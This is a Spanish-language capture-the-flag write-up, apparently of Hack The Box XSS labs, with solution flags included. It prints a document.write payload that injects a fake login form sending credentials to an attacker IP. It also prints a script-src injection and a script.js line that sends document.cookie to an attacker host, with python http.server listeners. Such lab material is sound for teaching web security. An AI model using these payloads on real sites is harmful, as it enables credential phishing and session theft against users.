




# Laboratorio: Pishing Attack 🎣

1. Vamos a la página web

<p align="center">
    
</p>

---
2. Creamos nuestro **`formulario malicioso`**
* **Payload:** `document.write('<h3>Please login to continue</h3><form action=http://[OUR_IP]:[Port]><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');`

* Nos ponemos en escucha con **Python** **`python3 -m http.server [Port]`**

---
3. Si enviamos el **payload** veremos nuestro formulario
<p align="center">
    
</p>

---
4. Visitamos el fichero `/phishing/send.php`, enviamos toda la **URL** y presionamos en **`Send`**
---
5. Ahora, veremos los **logs** de nuestro servidor en **Python**
<p align="center">
    
</p>

---
6. Nos autenticamos en `/phishing/login.php` con las credenciales previas
---
7. Vemos la **flag** 🏴: **`HTB{r3f13c73d_cr3d5_84ck_2_m3}`**


# Laboratorio: Cookie Hijacking 🍪

1. Vamos a la página web

<p align="center">
    
</p>

---

2. Después de testear con varios payload de **XSS** el que funciona es **`"><script src="http://<IP tun0>"></script>`** en el campo **`Profile Picture URL`**

---
3. Creamos un archivo **script.js** con el siguiente contenido
```js
new Image().src='http://<IP>/index.php?c='+document.cookie;
```
---

4. Enviamos la petición de registro con este **payload** en el campo **Profile Picture URL**

* **`"><script src="http://<IP tun0>/script.js"></script>`**
---
5. Nos ponemos en escucha previamente con **Python** `python3 -m http.server 80`
---
6. Veremos lo siguiente en los **logs** del servidor
<p align="center">
    
</p>

---
7. Reemplazamos los valores previos en la parte de **Storage** usando las **Herramientas de Desarrollador**
<p align="center">
    
</p>

---
8. Recargamos la página web y veremos la **flag** 🏴
* **`HTB{4lw4y5_53cur3_y0ur_c00k135}`**
